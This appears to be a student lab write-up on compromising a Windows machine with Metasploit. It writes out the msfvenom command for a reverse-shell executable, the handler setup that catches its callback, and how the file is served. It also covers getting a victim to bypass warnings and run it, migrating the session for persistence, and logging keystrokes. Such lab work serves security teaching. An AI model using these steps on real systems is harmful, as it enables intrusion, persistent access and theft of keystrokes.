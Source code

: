 # Compromising-windows-using-Metasploit
## Gokul S
Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
![Screenshot 2024-10-09 085547](https://github.com/user-attachments/assets/99b0b242-a362-4d79-8191-cf1ef85e180f)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-10-09 085632](https://github.com/user-attachments/assets/84fd2b37-b819-4075-abae-f8788d96cff2)

copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-09 085644](https://github.com/user-attachments/assets/d43e0241-2413-4cd1-9bb1-dabc3c61ae9a)

Start apache server
sudo systemctl apache2 start
![Screenshot 2024-10-09 085653](https://github.com/user-attachments/assets/7b9fd2df-c645-4a26-b1da-688a2891cbb0)

Check the status of apache2
![Screenshot 2024-10-09 085706](https://github.com/user-attachments/assets/f863dca1-2918-4155-829c-465e4ba57032)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
![Screenshot 2024-10-09 085750](https://github.com/user-attachments/assets/e1dec2c0-9c2d-41b0-bfc6-c05616b2c78d)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2024-10-09 085805](https://github.com/user-attachments/assets/35c636ed-5624-4623-aac5-e7f1bfee917b)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-10-09 085815](https://github.com/user-attachments/assets/4b598374-f9b1-4f69-a559-37a6bc9653d8)
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Screenshot 2024-10-09 085831](https://github.com/user-attachments/assets/906a9fa0-5f80-4416-b240-eadea5b0c54e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Uploading Screenshot 2024-10-09 085846.png…]()

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2024-10-09 085900](https://github.com/user-attachments/assets/4486eb39-404d-4f3c-a624-3ff490a588b1)
keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2024-10-09 085915](https://github.com/user-attachments/assets/64540148-e668-4845-b4ac-17ca220ed8b2)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
